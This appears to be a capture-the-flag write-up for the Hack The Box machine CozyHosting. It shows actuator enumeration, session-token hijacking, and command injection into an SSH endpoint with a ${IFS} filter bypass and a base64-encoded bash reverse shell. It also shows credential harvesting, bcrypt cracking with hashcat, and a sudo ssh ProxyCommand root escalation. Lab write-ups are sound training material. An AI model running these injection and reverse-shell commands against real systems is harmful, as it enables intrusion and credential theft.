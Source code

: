 ```yaml
---
layout: default_1
title: "CozyHosting - HTB"
date: 2024-03-02
tags: writeup hackthebox cozyhosting
---
```


# HTB CozyHosting Write Up
![HTB CozyHosting](/assets/2024-03-02-writeups-cozyhosting-htb/machine_info.png "HTB CozyHosting")


## Introduction
Cozy Hosting is a cloud server provider company, which offer multiple management tools.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
</div>
</details>

## Investigation
First, when we look at the port scan result we can see a usual web server infrastructure that exposes SSH to further management.  
It is using nginx as a reverse proxy and it redirects HTTP requests to http://cozyhosting.htb.  
![CozyHosting website](/assets/2024-03-02-writeups-cozyhosting-htb/cozyhosting_website.png "CozyHosting website")

The main website contains a login page that doesn't allow registration. We perform some basic SQLi tests but none of them worked/crashed.  
![Login Page](/assets/2024-03-02-writeups-cozyhosting-htb/login_page.png "Login Page")

Reverse proxy technologies can forward the request to another server that is running on localhost only.
Sometimes the backend server can return this information on the HTTP Header, which wasn't the case.  
Another way to perform this test is to access an error page, the 404 can be custom-crafted for a better UX than the default nginx error.  
We got the following message  
![Whitelabel Error](/assets/2024-03-02-writeups-cozyhosting-htb/whitelabel_error.png "Whitelabal Error")

This doesn't tell which server is in place, but we can search for the error and find out where it came from.  
A lot of results pointed it out to the [Spring Boot Framework][java-spring-boot].  
Now we know what we are dealing with, we can perform enumeration targeting the framework only.  
A [Hacktricks guide on Spring Actuators][spring-actuators] set us in the right direction.
First we launch a directory scan using a [spring-boot.txt list from SecLists][spring-seclists].
```
$ ffuf -w ~/tools/lists/spring-boot.txt:FUZZ -u http://cozyhosting.htb/FUZZ -H 'Host: cozyhosting.htb'

... SNIP ...

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1]
actuator/sessions       [Status: 200, Size: 145, Words: 1, Lines: 1]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1]
```

In the `actuator/sessions` we can get a session token for the user `kanderson`.
![Kanderson Session](/assets/2024-03-02-writeups-cozyhosting-htb/kanderson_session.png "Kanderson Session")
Using this token we can login into the cozyhosting.htb website.

The admin dashboard
![Admin dashboard](/assets/2024-03-02-writeups-cozyhosting-htb/admin_dashboard.png "Admin bashboard")

Exploring the dashboard for more information but none was found.

There is a service that enable us to include a host in the automatic patch list.
Now we will the service using placeholder values.
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=user&host=host'
... SNIP ...
< HTTP/1.1 302 
< Server: nginx/1.18.0 (Ubuntu)
< Content-Length: 0
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname host: Temporary failure in name resolution
... SNIP ...

```

Then, test for command injection
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;user&host=host'
... SNIP ...
< Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: user@host: command not found
... SNIP ...
```

At this moment we know that the server is executing the ssh command which has a basic syntax of `ssh USERNAME@HOSTNAME`.
We can build a reverse shell command.
In the following test we found that there is a whitespace filter on the username field.  
To bypass the filter we can use ${IFS} instead of spaced and execute our reverse shell.  
```
$ curl -vv -X POST http://cozyhosting.htb/executessh -H 'Cookie: JSESSIONID=60624E501F34D4469CFBE1CD53AF3273' --data 'username=;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMTEvNTU1NSAwPiYxCg==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;&host=host'

```

### User app
The shell is executed as the user `app` on /app dir
```
uid=1001(app) gid=1001(app) groups=1001(app)
```

Users with shell:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
josh:x:1003:1003::/home/josh:/usr/bin/bash

```

The Cozyhosting app is /app/cloudhosting-0.0.1.jar
Check running processes to see if any variable was passed as Parameter
```
$ ps aux
... SNIP ...
/usr/bin/java -jar cloudhosting-0.0.1.jar
... SNIP ...

```

We can decompile it with jadx and search for passwords. We found two hardcoded passwords, one for kanderson and another for postgresql.
```
kanderson:
    username=kanderson&password=MRdEQuv6~6P9

postgres:
    spring.datasource.username=postgres
    spring.datasource.password=Vg&nvzAQ7XxR
```

Both of these passwords aren't reused.

In the postgresql database, we can search for more password hashes and test again for password reuse.
```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```

Dumping users on cozyhosting
```
postgres=# \c cozyhosting
... SNIP ...
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin hash was cracked with hashcat
```
$ hashcat -a 0 -m 3200 admin.hash ~/Downloads/rockyou.txt
... SNIP ...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
... SNIP ...

```

The password was reused for user `josh`.

### User josh
```
uid=1003(josh) gid=1003(josh) groups=1003(josh)
```

Checking for sudo commands:
```
$ sudo -l
... SNIP ...
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

We can use the [GTFOBins SSH guide][gtfobins-ssh] to gain root access
```
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

[java-spring-boot]: <https://spring.io/projects/spring-boot> "Spring Boot"
[spring-actuators]: <https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators> "Spring Actuators"
[spring-seclists]: <https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt> "SecLists Spring"
[gtfobins-ssh]: <https://gtfobins.github.io/gtfobins/ssh/> "gtfobins-ssh"
